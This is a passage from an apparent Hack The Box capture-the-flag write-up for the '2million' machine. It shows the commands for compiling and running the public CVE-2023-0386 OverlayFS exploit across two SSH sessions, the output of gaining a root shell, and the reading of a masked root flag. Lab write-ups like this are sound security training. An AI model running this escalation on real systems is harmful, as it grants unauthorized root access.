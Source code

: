 ```console
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

still on the first machine, we then run:

```console
admin@2million:~/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0

```

it may look like it is hanging or not runnning, that is fine just move over to the second ssh session.

#### Second Machine

```console
admin@2million:~$ cd CVE-2023-0386-main/
admin@2million:~/CVE-2023-0386-main$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Aug 18 20:52 .
drwxrwxr-x 6 root   root     4096 Aug 18 20:52 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/CVE-2023-0386-main# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)

```

### Root.Txt

We can browse around and our root flag is at /root/root.txt:

```console
root@2million:~# cat /root/root.txt 
40540d8****************8
```

This was a very fun first experience trying a HTB machine, I hope to have more write-ups in the future and eventually move on to active machines.
